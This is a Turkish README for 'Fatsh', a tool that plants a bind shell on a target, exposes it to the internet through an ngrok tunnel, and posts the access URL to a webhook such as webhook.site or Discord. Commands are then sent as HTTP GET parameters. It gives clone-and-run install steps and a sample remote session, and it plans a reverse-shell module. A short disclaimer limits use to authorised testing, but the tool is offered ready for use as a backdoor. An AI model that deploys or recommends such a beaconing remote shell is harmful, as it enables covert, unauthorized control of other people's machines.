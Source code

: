 # Fatsh

**Fatsh**, port yönlendirme (port forwarding), VPN, NAT geçişi gibi zahmetli adımlara gerek kalmadan hızlıca **bind shell oturumu kazanmanızı** sağlayan bir araçtır. Otomatik ngrok tüneli açar, webhook üzerinden bağlantı bilgilerini gönderir ve tek komutla hedef sistemle etkileşime geçmenizi mümkün kılar.

---

## 🚀 Özellikler

* 🔒 **Ngrok HTTP tüneli** ile güvenli bağlantı sağlar
* 📡 **Webhook URL’sine** otomatik olarak bağlantı URL’sini gönderir
* ⚙️ Kurulum gerektirmez, çalıştır ve kullan
* 🐚 Basit **bind shell komut arayüzü**
* 🔁 Versiyon kontrolü yaparak güncelleme olup olmadığını bildirir

---

##  Nasıl Çalışır?

1. `fatsh`, `ngrok` üzerinden yerel 65534 portunu internete açar.
2. Oluşan ngrok HTTP adresini, sizin belirlediğiniz **webhook URL’sine** POST eder.
3. Bu adres üzerinden HTTP GET parametresiyle (`/?cmd=ls`) bind shell komutları gönderilir.
4. Gelen çıktılar JSON formatında döner (`{"result": "komut çıktısı"}`).

---

## ⚙️ Kurulum ve Kullanım
Eğer Linux yada MacOs kullanıyorsanız:
```bash
git clone https://github.com/githur1234/fatsh.git
cd fatsh
bash ./setup.sh
```

# Not:
kurulumda setup.sh otomatik olarak py dosyasını çalıştırır diğer kullanımlarda ise
```bash
    bash fatsh
```
komutunu çalıştırmanız yeterlidir

### İlk kullanımda:

* Webhook adresiniz sorulur
* Ngrok Auth token’ınız alınır
* Tüm bilgiler `config.json` içerisine kaydedilir

---

## 📡 Webhook Kullanımı

Webhook, genellikle `webhook.site` veya Discord gibi sistemler üzerinden kullanılabilir. Ngrok adresi aşağıdaki gibi bir JSON body ile post edilir:

```json
{
  "ngrok": "http://1a2b3c4d5e.ngrok.io"
}
```

---

## 🐚 Bind Shell Kullanımı

### Shell oluşturmak:

```text
[1] make bind shell
```

Belirttiğiniz yola shell kodu yazılır.

### Shell'e bağlanmak:

```text
[2] connect bind shell
```

Ngrok URL'si girilir ve ardından direkt komut yazıp çalıştırabilirsiniz.

---

## 🛡️ Uyarı

> **Yasal uyarı**: Bu araç sadece eğitim ve test amaçlıdır. Yalnızca **izinli** sistemlerde kullanın. Geliştirici hiçbir illegal kullanımda sorumluluk kabul etmez.

---

## 🧪 Örnek Kullanım

```bash
fatsh@user>> 2
ngrok url: http://1a2b3c4d5e.ngrok.io
shell>> whoami
shell>> uname -a
```

---

## 📦 Bağımlılıklar

* Python 3.8+
* `requests`
* `colorama`
* `ngrok` (Python paketi)
* `shell.py` (proje içinde)

---

## 📁 Yapı

```
fatsh/
├── fatsh/
    ├── fatsh.py
    ├── shell.py
    ├── config.json
    ├── requirements.txt
├── README.md
|__ vs.txt
```

---

## 📌 Yol Haritası (TODO)

* [ ] Gui Desteği
* [ ] Çoklu shell yönetimi
* [ ] Reverse shell modülü
* [ ] Güncelleme otomasyonu

---

## 🧑‍💻 Geliştirici

* [githur1234](https://github.com/githur1234)

---
## Not:
Yakında güçlü bir gui sistemi ile kullanımı ve fatsh beceriklerini geliştiriceğiz takip de kalın
